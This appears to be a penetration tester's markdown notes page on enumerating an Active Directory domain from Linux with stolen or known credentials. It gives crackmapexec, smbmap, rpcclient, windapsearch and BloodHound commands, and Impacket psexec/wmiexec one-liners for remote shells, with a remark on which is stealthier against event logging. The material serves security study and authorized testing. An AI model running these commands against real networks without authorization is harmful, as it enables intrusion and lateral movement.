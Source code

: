 # Domain Enumeration From Linux


For credentialed enumeration, we must have a user's cleartext password, NTLM 
password hash, or SYSTEM access on a domain-joined host.

Once we have any of the above, we should start enumerating domain. We are 
interested in domain users and computers attributes, group membership,
Group Policy Objects, permissions, ACLs, trusts and more.


- Enumeration using `crackmapexec` and `smbmap`:

 ```shell
 # getting password policy
 crackmapexec smb $DC_IP -u username -p password --pass-pol

 # getting usernames
 crackmapexec smb $DC_IP -u username -p password --users

 # getting groups
 crackmapexec smb $DC_IP -u username -p password --groups

 # getting loggin in users on a machine
 crackmapexec smb $MACHINE_IP -u username -p password --loggedon-users

 # getting shares info
 crackmapexec smb $MACHINE_IP -u username -p password --shares
 # getting list of readable files on a share
 # results at /tmp/cme_spider_plus/<ip of host>
 crackmapexec smb $MACHINE_IP -u username -p password -M spider_plus --share $SHARE_NAME

 # getting shares info using SMBMap
 smbmap -u username -p password -d $DOMAIN -H $MACHINE_IP
 # Recursive list of all directories
 smbmap -u username -p password -d $DOMAIN -H $MACHINE_IP -R $SHARE_NAME --dir-only
 ```

- Enumeration using `rpcclient`:

Note: 
- A Relative Identifier (RID) is a unique identifier (represented in hexadecimal format)
 utilized by Windows to track and identify objects.
- When an object is created within a domain, SID will be combined with a RID (RID at end) 
to make a unique value used to represent the object.
- RID is unique for object only within its domain.
- The built-in Administrator account will always have the RID value Hex 0x1f4, or 500.

 ```shell
 # staring a session. you can also try getting NULL session
 rpcclient -U "$u%$Password" $DC_IP

 # getting users and their RIDs
 rpcclient $> enumdomusers

 # getting user info using RID
 rpcclient $> queryuser 0x457
 ```

- Enumeration using Impacket Toolkit

 ```shell
 # psexec creates a remote service by uploading an executable to the ADMIN$ share
 # on the target. It then registers the service via RPC and the Windows Service Control
 # Manager. Once established, communication happens over a named pipe, providing shell
 # as SYSTEM (if you have local admin privs).
 psexec.py $DOMAIN/username:'password'@$DC_IP

 # Wmiexec.py utilizes Windows Management Instrumentation and provides semi-interactive
 # shell. It is stealthy (preferred). Each command will execute a new cmd.exe from WMI
 # event ID 4688: A new process has been created, may catch it
 # runs in the context of user
 wmiexec.py $DOMAIN/username:'password'@$DC_IP
 ```

- Automating search using `Windapsearch ` and `Bloodhound`:

 ```shell
 # getting domain admins
 python3 windapsearch.py --dc-ip $DC_IP -u username@$DOMAIN -p password --da
 # getting privileged users
 python3 windapsearch.py --dc-ip $DC_IP -u username@$DOMAIN -p password -PU

 # gathering domaion information using BloodHound and upload to UI
 bloodhound-python -u 'username' -p 'password' -ns $DC_IP -d $DOMAIN -c all --zip domain.zip

 ```

- A handy cheatsheet: https://wadcoms.github.io/
